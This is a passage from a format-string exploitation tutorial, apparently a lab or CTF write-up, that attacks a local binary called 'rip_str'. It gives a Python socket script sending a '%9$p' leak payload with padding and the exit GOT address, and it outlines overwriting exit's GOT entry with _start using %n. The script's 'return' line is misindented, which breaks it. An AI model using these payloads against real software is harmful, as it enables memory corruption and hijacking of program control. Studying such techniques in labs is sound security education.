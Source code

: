 Our first goal is to write the address to stack (without "%n", only the input
itself) and then print it with "%p". One important factor to take into account
is the input length. Always pass input with the same size.

I served `rip_str` with `netcat` using `busybox netcat -llp 65000 -e ./rip_str`
and connected to it using this script:

```
import socket
import struct

from telnetlib import Telnet

def read_until(skt, _bytes):
	recv = b''
	while _bytes not in recv:
		recv += skt.recv(1)
return recv

pack = lambda x: struct.pack("Q", x)

exit_got = pack(0x601040)

leaker_payload = b'%9$p'
leaker_payload += b'A' * ( 24 - len(leaker_payload) )
leaker_payload += exit_got

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
skt.connect(('localhost', 65000))

skt.send(leaker_payload)

print(read_until(skt, b'got it'))
```

Just change the offset being printed and the size of the input given
before the pointer until you can print `exit_got`. In my case `9` did
it.

#### Overwriting GOT Entry

Let's overwrite `exit@plt` `GOT` entry with `_start` (the first function to be
executed, yes, before `main`). With `nm rip_str | grep " _start"`
(`nm` show info about symbols in the file) we can get the address of
`_start`:

```
00000000004005f0 T _start
```

We just need to write `0x4005f0` bytes before calling `%<number>$n`.
Just one problem: `0x4005f0` is a lot of bytes, `4195824` to be
exact. There are some tricks to workaround this:

* Use format string operators to write more bytes
